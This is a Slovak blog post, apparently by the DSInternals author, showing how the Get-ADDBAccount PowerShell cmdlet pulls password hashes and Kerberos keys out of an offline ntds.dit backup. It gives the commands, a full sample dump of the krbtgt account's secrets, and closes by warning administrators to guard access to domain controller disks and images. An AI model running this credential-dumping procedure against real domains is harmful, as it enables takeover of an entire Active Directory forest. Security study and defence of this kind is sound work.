 ```yaml
---
ref: dumping-ntds-dit-files
title: 'Vykrádanie hesiel zo zálohy Active&nbsp;Directory'
date: 2015-08-15T21:29:37+00:00
layout: post
lang: sk
permalink: /sk/vykradanie-hesiel-zo-zalohy-active-directory/
tags:
    - 'Active Directory'
    - PowerShell
    - Security
---
```


Nedávno som písal o príkaze [Get-ADReplAccount](https://www.dsinternals.com/sk/vykradanie-hesiel-z-active-directory-na-dialku/), pomocou ktorého je možné vzdialene vytiahnuť heslá a iné citlivé informácie z doménového kontroléru. Tieto dáta sú na každom doménovom kontroléri uložené v súbore **ndts.dit** a odtiaľ sa dajú získať aj napriamo. Dokáže to napríklad nástroj [NTDSXtact](https://github.com/csababarta/ntdsxtract), ale ten je určený pre Linux, nemá moc jednoduché ovládanie a na väčších databázach je dosť pomalý. Preto som do svojho [PowerShell modulu DSInternals](https://www.dsinternals.com/sk/na-stiahnutie/) pridal príkaz **Get-ADDBAccount**, ktorého použitie je hračka:

```powershell
# Z registrov najprv získame tzv. Boot Key, ktorým sú heslá zašifrované:
$key = Get-BootKey -SystemHivePath 'C:\IFM\registry\SYSTEM'

# Načítame databázu a dešifrujeme heslá všetkých používateľov:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 

# Môžeme vytiahnuť aj heslo konkrétneho účtu, na základe distinguishedName, objectGuid, objectSid či sAMAccountName:
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=Adatum,DC=com' -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 
```

Výstup vyzerá úplne rovnako ako v prípade príkazu [Get-ADReplAccount](https://www.dsinternals.com/sk/vykradanie-hesiel-z-active-directory-na-dialku/):

```
DistinguishedName: CN=krbtgt,CN=Users,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-502
Guid: f58947a0-094b-4ae0-9c6a-a435c7d8eddb
SamAccountName: krbtgt
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: False
Deleted: False
LastLogon:
DisplayName:
GivenName:
Surname:
Description: Key Distribution Center Service Account
NTHash: 9b17bcfc3800df21baa6b8a4aeedb4fd
LMHash:
NTHashHistory:
  Hash 01: 9b17bcfc3800df21baa6b8a4aeedb4fd
  Hash 02: c9467e5fae14820500862d85c53747c1
LMHashHistory:
  Hash 01: 1a1d073fde1fca32c24f268fce835de2
  Hash 02: cc8019ecf6fdbcbe06849a9980804e8d
SupplementalCredentials:
  ClearText:
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    OldCredentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    Salt: ADATUM.COMkrbtgt
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 69b11bfec0eec2b278702bc7d9fbfda23e3789128b92c59955e69932a457533b
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: bcfcc7a65379d7914c2c341a74ca0e0e
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 809b0f1697dffe39bb87b2e3d79564dc8ef91b91bad2fc51abc444e42c7e88d9
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: c30fb9e17cd7503f980592a6864c8daa
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OlderCredentials:
    ServiceCredentials:
    Salt: ADATUM.COMkrbtgt
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: eee4408f94b35bb5dc7077747d9762a3
    Hash 02: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 03: 7b0b14e8f5cfa2de25d04d393c649bb7
    Hash 04: eee4408f94b35bb5dc7077747d9762a3
    Hash 05: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 06: cf102efea5397a51edc9202b922682e5
    Hash 07: eee4408f94b35bb5dc7077747d9762a3
    Hash 08: 5737a1de1f94d3f6e0dbbe4e3f173036
    Hash 09: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 10: 973ff6673784ce0faa956d10952b0be0
    Hash 11: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 12: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 13: decbd6b05ac2363ef7c772b42339fdab
    Hash 14: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 15: 71e248eae58d2f1f4b40baf412fde251
    Hash 16: 8f03fa2cf1cdbb300d0e0992fb5265e1
    Hash 17: 5032b686f9b0187115c5b56a4de89d1e
    Hash 18: eb804e4333521ee5e74241db4ecd7e5e
    Hash 19: c86f4816e80f0a590cb03f0b9aa8c04c
    Hash 20: 0e03a76194c6385754a1814384c99798
    Hash 21: db13be8eb45adad0984e5a68ea2dfe23
    Hash 22: db13be8eb45adad0984e5a68ea2dfe23
    Hash 23: 5b6bba9bae24a347108ad7267e1ac287
    Hash 24: e72cad8b0fc837d3e8de4ddc725eb81f
    Hash 25: c19dd7b576c43eec07ba475bd444f579
    Hash 26: 021c07151ece2de494402cf11f62a036
    Hash 27: d657b31bfcacb37443630759cc3a19bf
    Hash 28: 5d49708350e04b16ddc980a0c33c409b
    Hash 29: efe601100b7b4007fe3fa778499d5dda
```

Získané hashe hesiel sa&nbsp;dajú pomerne jednoducho využiť k&nbsp;ovládnutiu celého Active Directory forestu. Preto si&nbsp;dajte dobrý pozor na&nbsp;to,&nbsp;kto všetko má fyzický prístup k&nbsp;pevným diskom doménových kontrolérov, ich zálohám a&nbsp;v&nbsp;neposledom rade k&nbsp;VHD/VHDX/VMDK obrazom.